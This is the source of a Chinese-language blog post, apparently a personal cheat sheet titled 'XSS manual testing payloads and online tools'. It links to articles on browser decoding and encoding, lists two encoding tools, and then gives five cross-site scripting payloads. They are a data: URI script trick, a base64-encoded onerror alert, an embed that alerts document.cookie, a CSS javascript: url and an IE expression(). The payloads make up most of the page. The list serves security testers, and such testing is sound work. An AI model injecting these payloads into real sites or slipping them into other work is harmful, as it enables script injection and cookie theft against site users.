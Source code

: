 ```yaml
---
layout: post
title: "xss手工测试payload及在线工具"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

#相关文章

[浏览器是如何解码的](http://www.freebuf.com/articles/web/10121.html)
[XSS与字符编码的那些事儿](http://xss1.com/?p=19)
[网络浏览器的工作原理](http://www.html5rocks.com/zh/tutorials/internals/howbrowserswork/#Resources)


#编码工具

[Xss安全测试字符转换工具](http://app.baidu.com/app/enter?appid=280383)

[hackvertor](http://www.businessinfo.co.uk/labs/hackvertor/hackvertor.php)



#payload

	<script></script><svg><script>document.scripts[0].src&#00000000000000000000061/data:,alert(2)/.source</script>

这个好高端啊。

	<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>

	<embed allownetworking="all" allowscriptaccess="never" height="400" quality="high" src="javascript:alert(document.cookie)" style="margin:0.0px;float:none;" type="application/x-shockwave-flash" width="480">sssssssssssssssssssssssssssssssssss</embed>


	<div style="background:url('javascript:alert(1)')">

ie6测试OK

	<div style="x:expression(alert(1))">


